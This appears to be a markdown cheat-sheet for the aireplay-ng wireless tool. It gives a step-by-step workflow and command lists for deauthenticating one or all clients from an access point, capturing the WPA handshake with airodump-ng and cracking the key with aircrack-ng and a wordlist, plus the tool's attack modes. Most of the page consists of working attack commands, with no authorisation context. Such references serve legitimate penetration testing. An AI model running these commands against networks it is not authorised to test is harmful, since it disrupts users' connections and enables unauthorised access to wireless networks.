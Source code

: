 # aireplay-ng

Used to inject/replay frames. The primary function is to generate traffic for later use in aircrack-ng for cracking the WEP and WPA-PSK keys. For example, looking for the four-way handshake message during a deauthentication injection tests. Make sure that both the BSSID and CHANNEL are set correctly prior to injections.

Here's the normal workflow.

* Run [setup](../setup.md) first

```bash

sudo airmon-ng -c $CHANNEL $ADAPTER

# Terminal 1
sudo airodump-ng -c $CHANNEL --bssid $BSSID --output-format pcap -w $TAG $INTERFACE

# Terminal 2
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT $INTERFACE

# Wait for found handshake message from airodump-ng then stop everything

# Crack the key
sudo aircrack-ng -w $WORDLIST -b $BSSID -e $SSID $PCAP
```

## Commands

```bash
# Test if injection works for given interface
sudo aireplay-ng --test $INTERFACE

# Test injection between two interfaces (if two exists)
sudo aireplay-ng --test -i $INTERFACE2 $INTERFACE

# Test injection in a specific AP
sudo aireplay-ng -e $SSID -a $BSSID $INTERFACE

# Test injection in a specific AP without expecting to receive probes
sudo aireplay-ng -e $SSID -a $BSSID -D $INTERFACE

# Deauthenticate a specific client connected to an AP
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT $INTERFACE

# Deauthenticate ALL clients connected to an AP
sudo aireplay-ng --deauth 7 -a $BSSID $INTERFACE
```

## Attack Modes

```bash
aireplay-ng --help

Attack modes (numbers can still be used):

    --deauth      count : deauthenticate 1 or all stations (-0)
    --fakeauth    delay : fake authentication with AP (-1)
    --interactive       : interactive frame selection (-2)
    --arpreplay         : standard ARP-request replay (-3)
    --chopchop          : decrypt/chopchop WEP packet (-4)
    --fragment          : generates valid keystream   (-5)
    --caffe-latte       : query a client for new IVs  (-6)
    --cfrag             : fragments against a client  (-7)
    --migmode           : attacks WPA migration mode  (-8)
    --test              : tests injection and quality (-9)
```

## References

* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
